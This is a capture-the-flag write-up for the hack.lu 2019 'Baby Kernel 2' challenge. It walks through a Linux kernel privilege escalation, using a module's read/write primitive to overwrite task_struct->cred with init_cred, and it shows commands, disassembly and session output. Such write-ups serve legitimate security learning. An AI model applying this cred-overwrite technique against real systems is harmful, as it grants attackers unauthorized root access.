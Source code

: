 # hack.lu CTF 2019

### Baby Kernel 2 - pwn , 202 pts, solves: 68



We are provided with a minimal kernel environment containing custom kernel module and client that communicates with it.

Having `read/write` primitive in kernel space we can escalate our privileges by changing `cred` field of the `task_struct` of our current task. Luckily we are provided with the `System.map` file containing all symbols from the target kernel.

Obtaining `current_task`  address:

```bash
➤ grep 'D current_task' System.map                                                     
ffffffff8183a040 D current_task
```

Let's test if we can read from this address:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
(...)
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003372300
```

We have obtained `task_struct` address from the `current_task`. To escalate privileges to root we have to modify `task_struct->cred` field at offset `0x400` (offset obtained from the disassembly of the `commit_cred` function from the provided kernel image).  We will use global variable `init_cred`, which contains credentials of the `init` process that is running as `root`.

```bash
➤ grep init_cred System.map                                                                    
ffffffff8183f4c0 D init_cred
```

To decompress the kernel image I've used this tool: `https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux`

Obtaining the offset to the `cred` field: (we could also use pwn tools, but why not like this)

```bash
➤ gdb -q ./vmlinux                                                                    
pwndbg: loaded 176 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./vmlinux...done.
pwndbg> disassemble commit_creds 
Dump of assembler code for function commit_creds:
   0xffffffff81050c50 <+0>:	push   rbp
   0xffffffff81050c51 <+1>:	mov    rbp,rsp
   0xffffffff81050c54 <+4>:	push   r13
   0xffffffff81050c56 <+6>:	mov    r13,QWORD PTR ds:0xffffffff8183a040
   0xffffffff81050c5e <+14>:	push   r12
   0xffffffff81050c60 <+16>:	push   rbx
   0xffffffff81050c61 <+17>:	mov    r12,QWORD PTR [r13+0x3f8]
   0xffffffff81050c68 <+24>:	cmp    QWORD PTR [r13+0x400],r12
   0xffffffff81050c6f <+31>:	jne    0xffffffff81050d66 <commit_creds+278>
```

The `task_struct->real_cred` at offset `0x3f8` holds our current `uid (1000)`. We have to modify `task_struct->cred` field at offset `0x400`.

What is left to do is to spawn a shell with the new credentials - or like in our case, just use `Read file` function that is now running as `root`:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003373480
----- Menu -----
1. Readrandom: fast init done

2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 2
2
I need an offset to write to. Choose wisely - seriously now...
> 
0xffff888003373880     <-- task_struct->cred: 0xffff888003373480 + 0x400
0xffff888003373880
What about a value?
> 
0xffffffff8183f4c0     <-- init_cred
0xffffffff8183f4c0
Thanks, boss. I can't believe we're doing this!
flux_baby_2 ioctl nr 902 called
Amazingly, we're back again.
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 3
3
uid=0(root) gid=0(root)
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 4 
4 
Which file are we trying to read?
> /flag
/flag
Here are your 0x35 bytes contents: 
flag{nicely_done_this_is_how_a_privesc_can_also_go}}
```



That's it! Thanks



